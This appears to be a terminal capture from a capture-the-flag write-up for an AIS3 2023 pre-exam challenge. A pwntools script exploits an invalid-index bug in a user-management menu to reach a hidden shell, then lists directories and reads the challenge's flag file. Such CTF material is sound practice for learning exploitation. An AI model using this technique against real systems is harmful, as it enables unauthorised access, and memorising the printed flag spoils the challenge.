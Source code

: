 ```
chummy@hitcon:~/ais3preexam2023$ python3 mansysexp.py                                                                                                                                                    [11/294][+] Opening connection to chals1.ais3.org on port 10003: Done
Choose an option:
1. Add user
2. Show users
3. Delete user
4. Exit
>
Enter the index of the user you want to delete:
Invalid index.
Congratulations! You've successfully executed the secret function.
> ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
> ls /home/chal
Makefile
flag.txt
ms
ms.c
run.sh
> cat /home/chal/flag.txt
FLAG{C0n6r47ul4710n5_0n_cr4ck1n6_7h15_pr09r4m_!!_!!_!}
> exit
>
>
[*] Closed connection to chals1.ais3.org port 10003
Traceback (most recent call last):
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 65, in send_raw
    self.sock.sendall(data)
BrokenPipeError: [Errno 32] Broken pipe

During handling of the above exception, another exception occurred:

Traceback (most recent call last):
  File "/home/chummy/ais3preexam2023/mansysexp.py", line 15, in <module>
    r.send(input().encode())
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/tube.py", line 778, in send
    self.send_raw(data)
  File "/home/chummy/.local/lib/python3.9/site-packages/pwnlib/tubes/sock.py", line 70, in send_raw
    raise EOFError
EOFError
```
